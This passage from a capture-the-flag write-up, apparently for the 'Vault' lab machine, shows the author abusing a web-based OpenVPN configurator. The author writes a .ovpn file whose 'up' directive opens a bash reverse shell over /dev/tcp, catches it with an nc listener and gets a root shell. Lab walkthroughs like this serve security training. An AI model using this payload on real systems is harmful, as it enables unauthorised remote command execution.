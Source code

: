 While that runs lets manually follow the links.

The first link results in a 404, oh well, on to the next one.

The second link displays a "VPN Configurator"
![213319681.png]({{site.baseurl}}/Images/Vault/213319681.png)

That looks like it modifies and test changing the contents of an open vpn (.ovpn) file.

Knowing that we have PHP and potentially an ovpn file, we could go back and change our gobuster to include those file extensions.

Looking at our gobuster we can see it has discovered the /notes path, so before we kill and restart gobuster with the file extensions lets quickly check that:
![213319689.png]({{site.baseurl}}/Images/Vault/213319689.png)

Looking at the contents of the page we can see that the work has already been done for us by a lazy developer:
![213286916.png]({{site.baseurl}}/Images/Vault/213286916.png)

Download both [http://localhost/123.ovpn](http://localhost/123.ovpn) and [http://localhost/script.sh](http://localhost/script.sh) and we can take a look at the contents.

The ovpn file it is basically telling us what we need to do.

Enter some test data into the box to ensure that we are changing the file we think we are, the page errors out, but if we refresh `/123.ovpn` we can see that the entire file contents have been replaced with our text.

That being the case, lets modify the file to set up a reverse shell on our target
```
remote 192.168.122.1
dev tun
nobind
script-security 2
up "/bin/bash -c 'bash -i >& /dev/tcp/192.168.122.1/1234 0>&1'"
```

paste it into the input box and submit it, check the file to ensure the change has saved.

Create new normal ssh session as dave@10.10.10.109 and set up the reverse shell listener on 10.10.10.109:
```
dave@ubuntu:~$ nc -nlvp 1234
```

Back in the browser click the test file link

We get shell on DNS 192.168.122.4 as root:
```
dave@ubuntu:~$ nc -nlvp 1234
Listening on [0.0.0.0] (family 0, port 1234)
Connection from [192.168.122.4] port 1234 [tcp/*] accepted (family 2, sport 41096)
bash: cannot set terminal process group (1090): Inappropriate ioctl for device
bash: no job control in this shell
root@DNS:/var/www/html# 
```
